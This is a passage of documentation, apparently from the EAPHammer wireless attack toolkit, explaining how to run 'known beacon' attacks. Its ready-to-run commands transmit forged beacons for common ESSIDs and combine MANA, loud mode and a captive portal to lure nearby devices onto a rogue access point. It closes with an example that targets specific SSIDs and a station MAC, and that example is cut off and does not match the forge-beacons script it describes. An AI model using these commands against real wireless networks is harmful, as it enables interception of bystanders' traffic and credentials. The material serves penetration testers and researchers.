 ![known bacon attack animation](https://raw.githubusercontent.com/s0lst1c3/readme-images/master/known-bacon-attack.2019-10-17%2018_10_56.gif)

Ideally, Chatzisofroniou's known beacon attack should be performed using a wordlist of relatively common ESSIDs.

### Executing Known Beacon Attacks in EAPHammer


The `--known-ssids` flag can be used to supply a short wordlist of ESSIDs directly via EAPHammer's CLI, as shown in the following example:

```bash
# transmit beacons for the following ESSIDs: apples, oranges, grapes, pears, bananas
./eaphammer -i wlan0 --mana -e apples --known-beacons --captive-portal --known-ssids oranges grapes pears bananas
```

Alternatively, you can use the `--known-ssids-file` flag to specify the path a wordlist file containing a list of ESSIDs, as shown in the following example:

```bash
# transmit beacons for the following ESSIDs: apples + all ESSIDs in wordlist.txt
./eaphammer -i wlan0 --mana -e apples --known-beacons --captive-portal --known-ssids-file wordlist.txt
```

The wordlist file should be in the following format, with a single ESSID on each line:

```
oranges
grapes
pears
bananas
```

It's important to note that EAPHammer *will* permit you to place whitespace at the start and end of each line in the wordlist file, and interpret this whitespace as part of the ESSID. Make sure to sanity check your wordlist files accordingly before using them.

For increased effectiveness, the `--known-beacons` flag can be combined with the `--loud` flag htias shown in the following command (note that this is a very noisy attack):

```bash
./eaphammer -i wlan0 --mana --loud -e apples --known-beacons --captive-portal --known-ssids-file wordlist.txt
```

![known bacons gif](https://raw.githubusercontent.com/s0lst1c3/readme-images/master/known-bacons.2019-10-18%2001_25_28.gif)

### Known Beacon Burst Attacks

Known Beacon attacks tend to be a bit loud. EAPHammer provides a stealthier option in the form of its `forge-beacons` script, which can be used to transmit a burst of forged beacon packets over a short period of time. All you have to do is point it towards a wordlist file and give it the BSSID of your AP:

```bash
# create an ssid whitelist file
 for ssid in "apples" "oranges" "grapes" "pears"; do echo $ssid >> ssid-whitelist.txt ; done

 # create mac address whitelist containing the mac address of our target station
 echo '11:22:33:11:22:33' > mac-whitelist.txt

# execute a mana attack but only respond to essids in whitelist
./eaphammer -i wlan0 \
  --bssid de:ad:be:ef:13:37 \
  --mana \
  -e bananas \
  --ssid-whitelist ssid-whitelist.txt \
  --mac-whitelist mac-whitelist.txt \
```